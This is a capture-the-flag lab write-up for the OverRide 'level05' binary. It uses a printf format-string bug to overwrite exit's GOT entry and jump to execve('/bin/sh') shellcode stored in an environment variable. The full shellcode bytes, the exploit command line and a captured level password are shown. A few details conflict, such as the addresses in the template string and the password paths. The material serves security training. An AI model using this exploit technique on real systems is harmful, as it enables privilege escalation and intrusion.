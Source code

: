 ### step 1 : decompile binary with ghidra

### step 2 : Check all the functions availaible :

- We find in the n function an overflow-vulnerable functions : printf(). It is vulnerable because there is no casting, printf takes a buffer. We can take advantage of that call to trick printf to read/write memory with flags in our buffer.

- An `exit(1)` call is made just after the `printf` call

Our strategy : overwrite the call of the `exit` function by the call of a shellcode defined in env to get access to a shell with privileges to read `/home/user/level6/.pass`  

### step3 : find exit addresses

- Address of `exit` in the Global Table Offset (GOT) : 
```
level05@OverRide:~$ objdump -R level05 

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main

```
exit : 080497e0

The `exit` address is 080497e0 => \xe0\x97\x04\x08
We will overwrite this address with the address of the shellcode


### step4 : setup shellcode in env

env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')

Our nopesled spans from 0xffffddae to 0xffffdfae, so we target the middle 0xffffdeae.

### step5: exploit printf overflow vulnerability

- we want to now at which position the printf starts to write the string given. For this with use this string as input : <n * char><n * %08x>
%08x will display the content of the stack chunks wrote next to the printf call

8 says that you want to show 8 digits
0 that you want to prefix with 0's instead of just blank spaces
x that you want to print in lower-case hexadecimal

```bash
./level5
aaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
=> aaaa00000064.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.00000000.ffffffff.ffffd764.f7fdb000.61616161.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838
```                              

- char `a` value is 61
- We then find that printf argument position is at 10th position

- The shellcode address(0xffffdeae) in decimal is 4294958766 

- Our number of bytes to be printed(4294958766) is too big to be printed in a single destintation 
=> we need to split the bytes in two addresses (full explanations by Alexandre Cheron : https://axcheron.github.io/exploit-101-format-strings/)

- we split our shellcode address in the two adresses :
0xffffdeae => 0xffff (high order bytes) + 0xdeae (low order bytes)

decimal values :
0xffff => 65535
0xdeae => 57006 

first value is : 57006 - 8 = 56998
second value is : 65535 - 56998 - 8 = 8529

- Low order bytes must be written first at destination address then high order bytes at destination address + 2

exit address : \xe0\x97\x04\x08
exit address + 2 : \xe0\x97\x04\x08 + 2 = 0x080497e0 + 2 = \xe2\x97\x04\x08

- The exploit string will be formatted like that : 
`<destination addr> + <destination addr + 2> + %<value in decimal2 - 2 two addresses length (8)>d + %10$n + %<value in decimal1 - value in decimal2 - 2 two addresses length (8)>d + %11$n` :
`"\xe2\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn"`

- To get the exploit working we have to keep stdin open with the `cat` trick like previous exercices :

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998d" + "%10$hn" + "%8529d" + "%11$hn")' ; cat) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```


And we can get the flag !
```
whoami
level06
cat /home/users/level06/.pass
```
=>h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
